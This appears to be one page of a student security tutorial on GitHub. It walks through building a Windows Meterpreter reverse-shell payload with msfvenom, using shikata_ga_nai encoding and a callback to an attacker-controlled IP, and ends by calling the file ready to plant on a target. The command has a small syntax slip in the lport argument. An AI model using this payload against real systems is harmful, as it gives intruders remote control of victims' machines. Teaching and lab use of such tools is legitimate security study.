 # Creating a payload with Msfvenom

## Table of Contents

**[Home][H]**

**[1 - Using Metasploit][Metasploit]**

**[2 - Creating a Payload][Create]**

**[3 - Using Meterpreter][Meterpreter]**

**[4 - Keylogging][Keylog]**

---
To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="600">

---
While the file has an .exe extension, it is not actually an executable file yet. To do that, we need to make some changes to the file.

Execute the following command

**chmod 755 [name of payload executable].exe**

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/executable.png" width="600">

Now we have a payload ready to be planted in the target system.

---


[H]: https://github.com/yukun2h4ng/1600final/blob/main/README.md
[Metasploit]: https://github.com/yukun2h4ng/1600final/blob/main/tutorial.md
[Create]: https://github.com/yukun2h4ng/1600final/blob/main/createpayload.md
[Meterpreter]: https://github.com/yukun2h4ng/1600final/blob/main/meterpreter.md
[Keylog]: https://github.com/yukun2h4ng/1600final/blob/main/keylogging.md
